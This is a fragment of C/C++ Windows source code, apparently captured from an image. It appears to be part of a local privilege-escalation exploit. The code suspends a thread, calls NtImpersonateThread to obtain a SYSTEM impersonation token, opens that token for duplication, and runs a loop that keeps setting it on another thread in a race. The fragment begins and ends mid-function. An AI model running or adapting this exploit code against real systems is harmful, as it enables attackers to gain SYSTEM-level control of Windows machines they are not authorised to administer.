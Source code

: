 ```
      exit(1);
    }

    return hThread;
  }
  else
  {
    printf("Error: %d\n", GetLastError());
    exit(1);
  }
}

typedef NTSTATUS __stdcall NtImpersonateThread(HANDLE ThreadHandle, 
      HANDLE ThreadToImpersonate, 
      PSECURITY_QUALITY_OF_SERVICE SecurityQualityOfService);

HANDLE GetSystemToken(HANDLE hThread)
{
  SuspendThread(hThread);

  NtImpersonateThread* fNtImpersonateThread = 
     (NtImpersonateThread*)GetProcAddress(GetModuleHandle(L"ntdll"), 
                                          "NtImpersonateThread");
  SECURITY_QUALITY_OF_SERVICE sqos = {};
  sqos.Length = sizeof(sqos);
  sqos.ImpersonationLevel = SecurityImpersonation;
  SetThreadToken(&hThread, nullptr);
  NTSTATUS status = fNtImpersonateThread(hThread, hThread, &sqos);
  if (status != 0)
  {
    ResumeThread(hThread);
    printf("Error impersonating thread %08X\n", status);
    exit(1);
  }

  HANDLE hToken;
  if (!OpenThreadToken(hThread, TOKEN_DUPLICATE | TOKEN_IMPERSONATE, 
                       FALSE, &hToken))
  {
    printf("Error opening thread token: %d\n", GetLastError());
    ResumeThread(hThread);    
    exit(1);
  }

  ResumeThread(hThread);

  return hToken;
}

struct ThreadArg
{
  HANDLE hThread;
  HANDLE hToken;
};

DWORD CALLBACK SetTokenThread(LPVOID lpArg)
{
  ThreadArg* arg = (ThreadArg*)lpArg;
  while (true)
  {
    if (!SetThreadToken(&arg->hThread, arg->hToken))
    {
      printf("Error setting token: %d\n", GetLastError());
```